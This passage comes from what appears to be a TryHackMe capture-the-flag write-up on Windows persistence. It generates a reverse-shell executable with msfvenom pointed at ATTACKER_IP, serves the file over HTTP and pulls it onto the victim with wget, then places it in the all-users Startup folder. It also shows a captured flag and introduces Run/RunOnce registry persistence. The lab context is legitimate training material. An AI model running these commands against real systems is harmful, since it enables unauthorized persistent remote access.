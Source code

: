 ```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

We will then copy our payload into the victim machine. You can spawn an `http.server` with Python3 and use wget on the victim machine to pull your file:

|                                                                                                                                                      |     |                                                                                                                |
| ---------------------------------------------------------------------------------------------------------------------------------------------------- | --- | -------------------------------------------------------------------------------------------------------------- |
| AttackBox<br><br>```shell-session<br>user@AttackBox$ python3 -m http.server <br>Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... <br>``` | ➜   | Powershell<br><br>```shell-session<br>PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe<br>``` |

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.

```shell-session
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):

![sign out](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f0ba7fd44646d55c5505737642bdd96e.png)

And log back via RDP. You should immediately receive a connection back to your attacker's machine.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Use your newly obtained shell to execute `C:\flags\flag10.exe` and get your flag!


Once we follow all steps, we get a shell:

![](../images/Pasted%20image%2020250515172104.png)

```
C:\flags>.\flag10.exe

THM{NO_NO_AFTER_YOU}
```

## Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:
